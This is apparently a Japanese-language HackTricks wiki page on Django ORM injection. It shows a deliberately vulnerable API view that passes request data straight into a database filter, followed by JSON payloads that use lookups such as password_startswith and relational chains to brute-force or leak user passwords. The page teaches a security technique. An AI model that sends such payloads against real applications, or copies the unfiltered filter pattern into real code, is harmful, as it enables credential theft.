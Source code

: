 # ORM Injection

{{#include ../banners/hacktricks-training.md}}

## Django ORM (Python)

In [**this post**](https://www.elttam.com/blog/plormbing-your-django-orm/) は、Django ORMを脆弱にする方法が説明されています。例えば、次のようなコードを使用することができます。

<pre class="language-python"><code class="lang-python">class ArticleView(APIView):
"""
ユーザーが記事を検索するためにリクエストを送信する基本的なAPIビュー
"""
def post(self, request: Request, format=None):
try:
<strong>            articles = Article.objects.filter(**request.data)
</strong>            serializer = ArticleSerializer(articles, many=True)
except Exception as e:
return Response([])
return Response(serializer.data)
</code></pre>

すべてのrequest.data（これはjsonになります）が**データベースからオブジェクトをフィルタリングするために**直接渡されることに注意してください。攻撃者は予期しないフィルタを送信することで、期待以上のデータを漏洩させることができます。

例:

- **ログイン:** 簡単なログインで、登録されているユーザーのパスワードを漏洩させようとします。
```json
{
"username": "admin",
"password_startswith": "a"
}
```
> [!CAUTION]
> パスワードをブルートフォースして漏洩させることが可能です。

- **リレーショナルフィルタリング**: 操作で使用されることすら予期されていなかったカラムから情報を漏洩させるために、リレーションを横断することが可能です。例えば、次のリレーションを持つユーザーによって作成された記事を漏洩させることが可能な場合です: Article(`created_by`) -\[1..1]-> Author (`user`) -\[1..1]-> User(`password`).
```json
{
"created_by__user__password__contains": "pass"
}
```
> [!CAUTION]
> すべての記事を作成したユーザーのパスワードを見つけることが可能です。

- **多対多のリレーショナルフィルタリング**: 前の例では、記事を作成していないユーザーのパスワードを見つけることができませんでした。しかし、他のリレーションシップに従うことで、これは可能です。例えば: Article(`created_by`) -\[1..1]-> Author(`departments`) -\[0..\*]-> Department(`employees`) -\[0..\*]-> Author(`user`) -\[1..1]-> User(`password`).
```json
{
"created_by__departments__employees__user_startswith": "admi"
}
```
> [!CAUTION]
> この場合、記事を作成したユーザーの部門にいるすべてのユーザーを見つけ、その後にパスワードを漏洩させることができます（前のjsonではユーザー名を漏洩させているだけですが、その後にパスワードを漏洩させることが可能です）。
